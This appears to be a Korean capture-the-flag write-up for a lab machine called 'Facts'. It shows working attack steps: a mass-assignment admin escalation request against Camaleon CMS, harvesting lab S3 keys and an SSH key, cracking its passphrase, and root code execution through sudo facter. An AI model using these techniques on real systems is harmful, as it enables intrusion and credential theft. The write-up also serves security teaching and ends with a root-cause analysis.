# Facts

## Overview

| 항목 | 내용 |
|------|------|
| 머신 이름 | Facts |
| OS | Linux (Ubuntu) |
| 난이도 | Easy |
| 주요 취약점 | Mass Assignment (Privilege Escalation via `permit!`), Camaleon CMS ERB SSTI, AWS S3 크리덴셜 노출, SSH 키 탈취 |
| 주요 기술 | CMS 버전 식별, Rails 권한 상승, S3 버킷 열거, SSH 키 패스프레이즈 크래킹 |

Facts는 Ruby on Rails 기반의 Camaleon CMS를 운영하는 Linux 머신이다. 일반 유저 등록이 가능한 관리자 패널의 취약한 비밀번호 변경 엔드포인트를 통해 Mass Assignment로 관리자 권한을 획득한다. 이후 관리자 설정 페이지에 노출된 AWS S3 크리덴셜로 MinIO 버킷을 열거하고, 내부 버킷에서 SSH 개인키를 탈취한 뒤 패스프레이즈를 크래킹하여 초기 셸을 획득한다. 권한 상승은 `sudo facter`의 커스텀 팩트 기능을 악용한다.

---

## Enumeration

### TCP Port Scan

```bash
nmap -sC -sV 10.129.1.229
```



| 포트 | 서비스 | 비고 |
|------|--------|------|
| 22/tcp | OpenSSH 9.9p1 | Ubuntu Linux |
| 80/tcp | nginx 1.26.3 | `facts.htb`로 리다이렉트 |

공격 면이 HTTP 하나로 좁다. 모든 익스플로잇이 웹 애플리케이션에서 일어난다.

### /etc/hosts 설정

```bash
echo "10.129.1.229 facts.htb" | sudo tee -a /etc/hosts
```

### 웹 애플리케이션 식별

브라우저로 `http://facts.htb/`에 접속하면 트리비아 퀴즈 사이트가 표시된다.



Wappalyzer로 기술 스택을 분석하면 백엔드가 식별되지 않는다.



HTTP 요청의 세션 쿠키 이름에서 Rails 애플리케이션임이 드러난다.

```
Cookie: _factsapp_session=...
```

`_<appname>_session`은 Ruby on Rails의 기본 세션 쿠키 명명 규칙이다.



### CMS 식별

HTML 소스의 에셋 경로에서 Camaleon CMS가 노출된다.

```
/assets/themes/camaleon_first/assets/css/main-...css
```

`camaleon_first`는 Camaleon CMS의 기본 테마 이름이다. 관리자 패널 하단에서 정확한 버전이 확인된다.

```
Version 2.9.0
```

### 디렉토리 열거

```bash
feroxbuster -u http://facts.htb/ \
  -w /usr/share/seclists/Discovery/Web-Content/common.txt \
  -t 50 --no-recursion
```



주목할 엔드포인트:

| 경로 | 상태 | 비고 |
|------|------|------|
| `/admin` | 302 → `/admin/login` | 관리자 패널 존재 |
| `/admin/register` | 200 | **외부에 노출된 등록 페이지** |
| `/search` | 200 | 검색 기능 |
| `/sitemap.xml` | 200 | 전체 URL 목록 |

`/admin/register`가 외부에 공개되어 있다는 점이 핵심 진입점이다.

---

## Foothold

### 일반 유저 등록

`http://facts.htb/admin/register`에서 계정을 생성한다. 등록 직후 관리자 패널(`/admin/dashboard`)로 리다이렉트되며 `Client` 권한으로 로그인된다.



### Mass Assignment를 통한 권한 상승

Camaleon CMS 2.9.0의 `UsersController`에는 사용자 정보를 업데이트하는 엔드포인트가 두 개 있다.

**엔드포인트 1 — 프로필 편집** (`PATCH /admin/users/:id`):

```ruby
params.require(:user).permit(:username, :email, :first_name, :last_name)
```

`role` 필드가 허용 목록에 없어 변경이 차단된다.

**엔드포인트 2 — 비밀번호 변경 AJAX** (`POST /admin/users/:id/updated_ajax`):

```ruby
@user.update(params.require(:password).permit!)
```

`permit!`은 중첩 해시 안의 모든 파라미터를 검증 없이 허용한다. 비밀번호만 전달될 것이라는 가정 하에 작성된 코드지만, 공격자는 `password[role]=admin`을 추가하여 임의 필드를 DB에 반영할 수 있다.

Burp Suite로 비밀번호 변경 요청을 인터셉트한 뒤 body 끝에 `&password[role]=admin`을 추가하고 Forward한다.

```
POST /admin/users/5/updated_ajax HTTP/1.1
...

_method=patch&authenticity_token=...&password[password]=Test1234!&password[password_confirmation]=Test1234!&password[role]=admin
```

로그아웃 후 재로그인하면 사이드바에 전체 관리자 메뉴가 표시된다.

---

## AWS S3 크리덴셜 획득

### Filesystem Settings 노출

관리자 권한으로 `Settings → General Site → Filesystem Settings` 탭에 접근하면 AWS S3 설정이 평문으로 노출된다.



| 항목 | 값 |
|------|-----|
| AWS Access Key | `AKIAE56E043E17C302AD` |
| AWS Secret Key | `qdLnHVsUMmj9F4ATJybNZA95/y3cp4eSUME/t9H3` |
| Bucket Name | `randomfacts` |
| Region | `us-east-1` |
| **S3 Endpoint** | **`http://localhost:54321`** |

엔드포인트가 `localhost:54321`이라는 점이 중요하다. 실제 AWS가 아닌 서버 내부에서 동작하는 MinIO(S3 호환 오브젝트 스토리지)다.

### S3 버킷 열거

```bash
export AWS_ACCESS_KEY_ID=AKIAE56E043E17C302AD
export AWS_SECRET_ACCESS_KEY=qdLnHVsUMmj9F4ATJybNZA95/y3cp4eSUME/t9H3

aws s3 ls \
  --endpoint-url http://facts.htb:54321 \
  --region us-east-1 \
  --no-verify-ssl
```



```
2025-09-11 21:06:52 internal
2025-09-11 21:06:52 randomfacts
```

`randomfacts`는 CMS 미디어 파일용 버킷이고, `internal`이 추가로 존재한다.

### internal 버킷 탐색

```bash
aws s3 ls s3://internal/ \
  --endpoint-url http://facts.htb:54321 \
  --region us-east-1 \
  --no-verify-ssl \
  --recursive | grep -v ".bundle"
```



```
2026-01-09 03:45:13        220 .bash_logout
2026-01-09 03:45:13       3900 .bashrc
2026-01-09 04:01:43          0 .cache/motd.legal-displayed
2026-01-09 03:47:17         20 .lesshst
2026-01-09 03:47:17        807 .profile
2026-05-22 19:50:35         82 .ssh/authorized_keys
2026-05-22 19:50:35        464 .ssh/id_ed25519
```

전형적인 Linux 홈 디렉토리 구조다. `.ssh/id_ed25519` — SSH 개인키가 버킷에 저장되어 있다.

---

## SSH 키 탈취 및 초기 셸 획득

### 개인키 다운로드

```bash
aws s3 cp s3://internal/.ssh/id_ed25519 ./id_ed25519 \
  --endpoint-url http://facts.htb:54321 \
  --region us-east-1 \
  --no-verify-ssl
```



개인키를 확인하면 `aes256-ctr` + `bcrypt`로 암호화되어 있어 패스프레이즈가 필요하다.



### 패스프레이즈 크래킹

```bash
ssh2john id_ed25519 > id_ed25519.hash
john id_ed25519.hash --wordlist=/usr/share/wordlists/rockyou.txt
```



```
dragonballz      (id_ed25519)
```

### 유저명 식별

`ssh-agent`에 키를 등록하는 과정에서 개인키 내부 메타데이터로부터 유저명이 노출된다.

```bash
eval $(ssh-agent -s)
ssh-add id_ed25519
```



```
Identity added: /home/bugi/id_ed25519 (trivia@facts.htb)
```

`authorized_keys`에는 코멘트가 없었지만, 개인키 파일 내부에는 생성 당시의 `trivia@facts.htb` 코멘트가 남아있었다.

### SSH 접속

```bash
chmod 600 id_ed25519
ssh -i id_ed25519 trivia@facts.htb
```

패스프레이즈 `dragonballz` 입력 후 접속에 성공한다.



```bash
cat /home/william/user.txt
```

---

## Privilege Escalation

### sudo 권한 확인

```bash
sudo -l
```

```
User trivia may run the following commands on facts:
    (ALL) NOPASSWD: /usr/bin/facter
```

`trivia` 유저는 비밀번호 없이 root 권한으로 `facter`를 실행할 수 있다.

### facter 커스텀 팩트를 통한 RCE

`facter`는 Puppet 에코시스템의 시스템 정보 수집 도구로, `--custom-dir` 옵션으로 지정한 디렉토리의 Ruby 파일을 팩트로 로드하여 실행한다. root 권한으로 임의 Ruby 코드를 실행할 수 있다.

```bash
mkdir -p /tmp/facts
cat > /tmp/facts/evil.rb << 'EOF'
Facter.add('evil') do
  setcode do
    `cat /root/root.txt`
  end
end
EOF

sudo facter --custom-dir /tmp/facts evil
```



`setcode` 블록 안의 백틱 명령어가 root 권한으로 실행되어 `root.txt` 내용이 출력된다.

---

## Vulnerability Root Cause Analysis

| 취약점 | 위치 | 근본 원인 | OWASP |
|--------|------|-----------|-------|
| 관리자 등록 페이지 노출 | `/admin/register` | 외부에서 접근 가능한 관리자 패널 등록 엔드포인트 | A01 Broken Access Control |
| Mass Assignment | `UsersController#updated_ajax` | `permit!`으로 모든 파라미터를 허용하여 `role` 필드 변경 가능 | A01 Broken Access Control |
| S3 크리덴셜 평문 노출 | General Site Filesystem Settings | 관리자 UI에 AWS 시크릿 키 평문 표시 | A02 Cryptographic Failures |
| SSH 개인키 S3 저장 | `internal` 버킷 `.ssh/id_ed25519` | 민감한 인증 자료가 접근 가능한 오브젝트 스토리지에 저장 | A02 Cryptographic Failures |
| sudo facter 권한 오남용 | sudoers | 일반 유저가 커스텀 팩트 로드 기능을 통해 root 권한으로 임의 코드 실행 가능 | A05 Security Misconfiguration |

### 실제 환경에서의 위험성

`permit!`을 사용한 Mass Assignment는 Rails 개발에서 흔히 발생하는 실수다. 특정 기능(비밀번호 변경)에만 사용하더라도 해당 모델의 모든 속성이 공격 대상이 된다. Rails 애플리케이션에서는 항상 `permit(:허용할_필드_목록)` 형태로 명시적 화이트리스트를 사용해야 한다.

S3 호환 스토리지에 SSH 개인키를 저장하는 것은 키 자체의 암호화 여부와 무관하게 위험하다. 스토리지 크리덴셜이 노출되는 순간 키도 함께 탈취된다. SSH 키는 배포 시스템이나 시크릿 매니저를 통해 관리해야 하며, 오브젝트 스토리지에 평문으로 저장해서는 안 된다.

---

## Attack Chain Summary

| 단계 | 기술 | 도구 |
|------|------|------|
| 포트 스캔 | TCP 서비스 열거 | nmap |
| 웹 앱 식별 | 세션 쿠키 분석, Wappalyzer, 소스 분석 | 브라우저, Wappalyzer |
| 디렉토리 열거 | 경로 brute force | feroxbuster |
| 계정 등록 | 외부 노출 등록 페이지 악용 | 브라우저 |
| Mass Assignment | `permit!` 취약 엔드포인트로 role=admin 설정 | Burp Suite |
| S3 크리덴셜 획득 | 관리자 설정 페이지에서 평문 크리덴셜 수집 | 브라우저 |
| S3 버킷 열거 | internal 버킷 탐색, SSH 키 발견 | aws cli |
| SSH 키 다운로드 | S3에서 개인키 탈취 | aws cli |
| 패스프레이즈 크래킹 | bcrypt 패스프레이즈 오프라인 크래킹 | ssh2john, john |
| 유저명 식별 | ssh-agent 등록 시 개인키 코멘트 추출 | ssh-add |
| 초기 셸 | SSH 키 인증으로 trivia 접속 | ssh |
| 권한 상승 | sudo facter 커스텀 팩트로 root 코드 실행 | facter |
